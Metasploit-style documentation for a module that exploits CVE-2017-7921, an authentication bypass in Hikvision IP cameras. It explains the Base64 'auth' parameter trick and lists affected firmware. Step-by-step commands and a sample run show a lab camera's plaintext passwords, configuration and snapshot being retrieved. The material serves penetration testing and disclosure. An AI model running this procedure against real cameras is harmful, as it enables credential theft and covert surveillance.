 ## Vulnerable Application

Many Hikvision IP cameras have improper authorization logic that allows unauthenticated information disclosure
of camera information, such as detailed hardware and software configuration, user credentials, and camera snapshots.

This module allows the attacker to disclose this information without the need of authenticaton by utilizing the
improper authentication logic to send a request to the server which contains an `auth` parameter in the query string
containing a Base64 encoded version of the authorization in `username:password` format.
Vulnerable cameras will ignore the `password` parameter and will instead use the username part of this string
as the user to log in. Using user `admin` will allow an attacker to retrieve and disclose any information
of the targeted device.

The vulnerability has been present in Hikvision products since 2014.
In addition to Hikvision-branded devices, it affects many white-labeled camera products sold under a variety of brand names.

Below is a list of vulnerable firmware, but many other white-labelled versions might be vulnerable.

* DS-2CD2xx2F-I Series: V5.2.0 build 140721 to V5.4.0 build 160530
* DS-2CD2xx0F-I Series: V5.2.0 build 140721 to V5.4.0 Build 160401
* DS-2CD2xx2FWD Series: V5.3.1 build 150410 to V5.4.4 Build 161125
* DS-2CD4x2xFWD Series: V5.2.0 build 140721 to V5.4.0 Build 160414
* DS-2CD4xx5 Series: V5.2.0 build 140721 to V5.4.0 Build 160421
* DS-2DFx Series: V5.2.0 build 140805 to V5.4.5 Build 160928
* DS-2CD63xx Series: V5.0.9 build 140305 to V5.3.5 Build 160106

Installing a vulnerable test bed requires a Hikvision camera with the vulnerable firmware loaded.

## Verification Steps

This module has been tested against a Hikvision camera with the specifications listed below:

* MANUFACTURER: Hikvision.China
* MODEL: DS-2CD2142FWD-IS
* FIRMWARE VERSION: V5.4.1
* FIRMWARE RELEASE: build 160525
* BOOT VERSION: V1.3.4
* BOOT RELEASE: 100316

1. `use auxiliary/gather/hikvision_info_disclosure_cve_2017_7921`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `check`
1. `set PRINT true`
1. `set ACTION Automatic`
1. `run`
1. You should get a full disclosure of all camera information supported by this module.

## Options
### PRINT
This option allows you print all information collected to the console during execution except for
camera snapshots.

## Actions
### Automatic
Retrieves all information suported by this module
### Configuration
Retrieves the camera hardware and software configuration
### Credentials
Retrieves all configured users including the passwords in plain text format and stores them in the database.
This can be checked by using the command `creds -O <target IP>` at the Metasploit prompt.
### Snapshot
Takes a camera snapshot and stores it as a JPEG file in loot.

All information disclosed is by default stored in loot

## Scenarios

### Hikvision Camera DS-2CD2142FWD-IS -> firmware version V5.4.1, build 160525

```
msf6 auxiliary(gather/hikvision_info_disclosure_cve_2017_7921) > set rhosts 192.168.100.180
rhosts => 192.168.100.180
msf6 auxiliary(gather/hikvision_info_disclosure_cve_2017_7921) > set ACTION Automatic
ACTION => Automatic
msf6 auxiliary(gather/hikvision_info_disclosure_cve_2017_7921) > set PRINT true
PRINT => true
msf6 auxiliary(gather/hikvision_info_disclosure_cve_2017_7921) > options

Module options (auxiliary/gather/hikvision_info_disclosure_cve_2017_7921):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   PRINT    true             no        Print output to console (not applicable for snapshot)
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.100.180  yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Auxiliary action:

   Name       Description
   ----       -----------
   Automatic  Dump all information


msf6 auxiliary(gather/hikvision_info_disclosure_cve_2017_7921) > check
[+] 192.168.100.180:80 - The target is vulnerable.
msf6 auxiliary(gather/hikvision_info_disclosure_cve_2017_7921) > run
[*] Running module against 192.168.100.180

[*] Running in automatic mode
[*] Getting the user credentials...
[*] Credentials for user:admin are added to the database...
[*] Credentials for user:admln are added to the database...
[*] User Credentials Information:
-----------------------------
Username:admin | ID:1 | Role:Administrator | Password: Pa$$W0rd
Username:admln | ID:2 | Role:Operator | Password: asdf1234

[+] User credentials are successfully saved to /root/.msf4/loot/20221002172346_default_192.168.100.180_hikvision.creden_049224.txt
[*] Getting the camera hardware and software configuration...
[*] Camera Device Information:
--------------------------
Device name: IP CAMERA
Device ID: 88
Device description: IPCamera
Device manufacturer: Hikvision.China
Device model: DS-2CD2142FWD-IS
Device S/N: DS-2CD2142FWD-IS2016HS77777777777
Device MAC: bc:ad:28:ff:ff:ff
Device firware version: V5.4.1
Device firmware release: build 160525
Device boot version: V1.3.4
Device boot release: 100316
Device hardware version: 0x0

Camera Network Information:
---------------------------
IP interface: 1
IP version: v4
IP assignment: static
IP address: 192.168.100.180
IP subnet mask: 255.255.255.0
Default gateway: 192.168.100.1
Primary DNS: 8.8.8.8

Camera Storage Information:
---------------------------
Storage volume name: HDD1
Storage volume ID: 1
Storage volume description: DAS
Storage device: HDD
Storage type: internal
Storage capacity (MB): 30543
Storage device status: HD_NORMAL

[+] Camera configuration details are successfully saved to /root/.msf4/loot/20221002172347_default_192.168.100.180_hikvision.config_549113.txt
[*] Taking a camera snapshot...
[+] Camera snapshot is successfully saved to /root/.msf4/loot/20221002172348_default_192.168.100.180_hikvision.image_963468.bin
[*] Auxiliary module execution completed

msf6 auxiliary(gather/hikvision_info_disclosure_cve_2017_7921) > creds -O 192.168.100.180
Credentials
===========

host             origin           service        public  private   realm  private_type  JtR Format
----             ------           -------        ------  -------   -----  ------------  ----------
192.168.100.180  192.168.100.180  80/tcp (http)  admln   asdf1234         Password
192.168.100.180  192.168.100.180  80/tcp (http)  admin   Pa$$W0rd         Password

msf6 auxiliary(gather/hikvision_info_disclosure_cve_2017_7921) >
```

## Limitations
No limitations are identified so far using this module.
